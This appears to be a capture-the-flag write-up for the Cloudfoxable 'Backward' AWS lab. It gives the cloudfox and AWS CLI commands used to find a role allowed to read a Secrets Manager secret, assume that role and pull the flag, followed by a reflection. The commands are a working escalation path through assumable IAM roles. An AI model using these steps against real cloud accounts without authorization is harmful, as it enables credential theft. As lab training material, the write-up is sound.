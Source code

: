 # Cloudfoxable 5 - Backward

## Solution

### Step 1: Identify Who Has Access to the Secret
I needed to identify who had access to a `DomainAdministrator-Credentials-9TWS9X` resource and then retrieve the flag stored in it. 
I started by running the following command to check for any IAM roles or policies with access to the secret:

```bash
cloudfox aws -p cloudfoxable permissions -v2 | grep -i secret
```

The output showed that the "Alexander-Arnold" role had permission to perform the `secretsmanager:GetSecretValue` action on the secret:

```
│ Role │ Alexander-Arnold                │ Managed │ corporate-domain-admin-password-policy │ Allow  │ secretsmanager:GetSecretValue │ arn:aws:secretsmanager:us-west-2:047719646211:secret:DomainAdministrator-Credentials-9TWS9X │ No │
```

### Step 2: Check Access Using the `cloudfoxable` Profile
Next, I attempted to use the `cloudfoxable` profile to retrieve the secret. However, I received an "Access Denied" error, as expected, because the user didn't have the necessary permissions:

```bash
aws --profile cloudfoxable secretsmanager get-secret-value --secret-id arn:aws:secretsmanager:us-west-2:047719646211:secret:DomainAdministrator-Credentials-9TWS9X
```

**Error Output:**
```
An error occurred (AccessDeniedException) when calling the GetSecretValue operation: User: arn:aws:iam::047719646211:user/ctf-starting-user is not authorized to perform: secretsmanager:GetSecretValue on resource: arn:aws:secretsmanager:us-west-2:047719646211:secret:DomainAdministrator-Credentials-9TWS9X because no identity-based policy allows the secretsmanager:GetSecretValue action
```

### Step 3: Assume the Role "Alexander-Arnold"
Since the "Alexander-Arnold" role had the necessary permission, I configured my AWS CLI to assume that role. I added the following to my `.aws/config` file:

```bash
[profile alexander-arnold]
region = us-west-2
role_arn = arn:aws:iam::047719646211:role/Alexander-Arnold
source_profile = cloudfoxable
```

After saving the changes, I verified that the role assumption worked by running:

```bash
aws --profile alexander-arnold sts get-caller-identity
```

**Output:**
```json
{
    "UserId": "AROAQWHCQAQBRYHVXNLAR:botocore-session-1743902759",
    "Account": "047719646211",
    "Arn": "arn:aws:sts::047719646211:assumed-role/Alexander-Arnold/botocore-session-1743902759"
}
```

### Step 4: Retrieve the Secret and Find the Flag
Now that I had successfully assumed the "Alexander-Arnold" role, I used the following command to retrieve the secret:

```bash
aws --profile alexander-arnold secretsmanager get-secret-value --secret-id arn:aws:secretsmanager:us-west-2:047719646211:secret:DomainAdministrator-Credentials-9TWS9X
```

The output revealed the flag:

```json
{
    "ARN": "arn:aws:secretsmanager:us-west-2:047719646211:secret:DomainAdministrator-Credentials-9TWS9X",
    "Name": "DomainAdministrator-Credentials",
    "VersionId": "6F50E10B-9EA3-427A-AAD8-DEB9D68C5EF7",
    "SecretString": "FLAG{backwards::IfYouFindSomethingInterstingFindWhoHasAccessToIt}",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": "2025-02-12T09:26:46.917000-05:00"
}
```

### Step 5: Extract the Flag
The flag was found in the `SecretString` field of the JSON output:

```
FLAG{backwards::IfYouFindSomethingInterstingFindWhoHasAccessToIt}
```

## Reflection

* **What was your approach?**
  My approach was to first identify the users or roles with access to the secret, then check if I could directly access the secret. After realizing I didn't have sufficient permissions, I assumed the role that had the right permissions and used that to retrieve the secret.

* **What was the biggest challenge?**
  The biggest challenge was the "Access Denied" error when trying to access the secret directly. It required me to think about assuming a role with the necessary permissions.

* **How did you overcome the challenges?**
  I overcame the challenge by reviewing the roles and policies attached to the secret and determining which role had the necessary permissions. I then set up the appropriate profile to assume the role and successfully retrieved the secret.

* **What led to the breakthrough?**
  The breakthrough came when I reviewed the permissions and identified that the "Alexander-Arnold" role had access to the secret. The configuration of my AWS CLI to assume this role allowed me to bypass the access denial.

* **On the blue side, how can the learning be used in future?**
  This experience highlighted the importance of understanding IAM roles, policies, and permissions. In future tasks, I can leverage this knowledge to quickly troubleshoot access issues and assume roles to gain the required permissions when needed. Additionally, it's a reminder to always check the permissions of the resources you're trying to access, rather than simply assuming direct access.